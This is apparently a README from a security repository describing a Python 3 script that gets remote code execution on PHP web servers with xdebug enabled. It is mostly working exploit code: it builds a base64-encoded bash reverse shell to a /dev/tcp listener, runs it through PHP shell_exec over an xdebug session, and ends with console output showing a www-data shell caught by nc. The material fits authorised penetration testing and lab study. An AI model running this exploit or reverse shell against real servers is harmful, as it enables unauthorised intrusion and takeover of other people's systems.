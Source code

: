 ### `xdebug_shell.py`

This Python script is used to gain Remote Code Execution (RCE) into a PHP web server that has `xdebug` enabled. The script is based on https://github.com/gteissier/xdebug-shell. The script inside this repository works, but is made in Python version 2 and provides a custom interactive web shell.

I decided to translate the script to Python version 3 and modify it to obtain a reverse shell connection using `nc`.

The scripts generates the reverse shell payload as follows:

```python
rev_shell = b64e(f'bash  -i >& /dev/tcp/{lhost}/{lport} 0>&1'.encode())
command = f'echo {rev_shell.decode()} | base64 -d | bash'
php_command = b64e(f'shell_exec({pipes.quote(command)})'.encode())
```

Then, we start the `xdebug` session listening on port 9000:

```python
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.bind(('0.0.0.0', 9000))
    s.listen(1)

    threading.Thread(target=start_xdebug, args=(url, lhost)).start()
```

The function `start_xdebug` is the following. To start the `xdebug` session it only needs a random identifier and the IP address of the host that will be debugging (`lhost`):

```python
def start_xdebug(url, lhost):
    try:
        requests.get(url, timeout=2,
                     params={'XDEBUG_SESSION_START': os.urandom(8).hex()},
                     headers={'X-Forwarded-For': lhost})
    except requests.exceptions.ReadTimeout:
        pass
```

Then, we handle the socket connection and send the reverse shell payload:

```python
conn, _ = s.accept()
conn.recv(1024)
conn.sendall(f'eval -i 1 -- {php_command.decode()}\0'.encode())
conn.close()
```

And we will obtain the connection using `nc`.

Here is an example of the script execution:

```console
$ python3 xdebug_shell.py http://172.20.0.10/info.php 172.30.0.9 4444
```

```console
$ nc -nlvp 4444
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 172.30.0.1.
Ncat: Connection from 172.30.0.1:55308.
bash: cannot set terminal process group (37): Inappropriate ioctl for device
bash: no job control in this shell
www-data@web:/var/www/html$
```
